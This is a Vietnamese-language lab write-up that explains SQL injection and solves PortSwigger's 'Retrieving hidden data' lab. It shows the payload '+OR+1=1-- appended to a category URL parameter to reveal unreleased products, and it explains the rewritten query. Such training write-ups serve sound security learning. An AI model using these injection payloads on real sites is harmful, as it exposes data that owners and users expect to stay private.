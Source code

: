 # SQL Injection
Hello mấy ní hôm nay cùng tìm hiểu SQL injection trên Portswigger nhé =)))). 
## SQL là gì?
Sql injection là một lỗ hổng bảo mật web ( web security vulnerability ) cho phép các hacker can thiệp vào các truy vấn mà application tạo ra để gửi đến các database của nó.
![image](https://github.com/user-attachments/assets/73811511-6f78-42c0-847d-3549dceaf451)  

**Question: Vây các hacker có thể khai thác được gì từ SQLI?**
* Các hacker có thể xem những thông tin mà thông thường chúng ta không thể thấy được.
* Kẻ tấn công còn có thể thông qua đó mà chỉnh sửa và xóa đi các thông tin quan trọng trong database. 
* Kẻ tấn công có thể thông qua SQLI để leo thang các của tấn công của họ đến các máy chủ hay cơ sở hạng tầng khác.   
## Hậu quả các cuộc tấn công bằng SQL injection ?
Hậu quả của việc bị xâm phạm vào các thông tin nhạy cảm có thể là hậu quả của 1 cuộc tấn công bằng SQL Injection, trong đó các thông tin thường bị lộ là:
* Thông tin về tài chính như thẻ ngân hàng, thẻ ghi nợ.
* Thông tin cá nhân.
* Thông tin về tài khoản mật khẩu quan trọng như ví điện tử, mxh,...
## LAB1: [Retrieving hidden data](https://https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data). 

![image](https://github.com/user-attachments/assets/737429d1-bdf7-4988-bad3-8e5467b9169d)

Dựa theo yêu cầu đề bài chúng ta phải làm xuất hiện các sản phẩm chưa được công bố trong trang web. 
Câu lệnh truy vấn SQL là:
``` 
SELECT * FROM products WHERE category = 'Gifts' AND released =1 
```
Giải nghĩa: trả về thông tin sản phẩm khi 'category' là gifts và ```released = 1 ``` -> nó chỉ hiện ra các sản phẩm thuộc gifts và đã được công bố.
Để khai thác ta có thể thêm vào URL của trang web từ 
```
https://0afe00b6047c270583e3fe7c00050033.web-security-academy.net/filter?category=Accessories
```
![image](https://hackmd.io/_uploads/BJAG3wE2yg.png)

bằng cách thêm vào '+OR+1=1--
```
https://0afe00b6047c270583e3fe7c00050033.web-security-academy.net/filter?category=Accessories'+OR+1=1--
```
![image](https://github.com/user-attachments/assets/784d1e02-b6a1-450b-ba39-da563dcdc297)  
Như ta thấy nó đã hiện ra các sản phẩm bị giấu đi. 
Giả sử như truy vấn ban đầu là: 
```linux
SELECT * FROM products WHERE category = 'Accessories';
```
sau khi chèn pay load vào thì nó trở thành:
```linux
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--';
```
* OR 1=1: Luôn đúng → Kết quả trả về tất cả sản phẩm thay vì chỉ "Accessories".  
* --: Đây là dấu comment trong SQL, giúp bỏ qua phần còn lại của truy vấn, tránh lỗi cú pháp.  

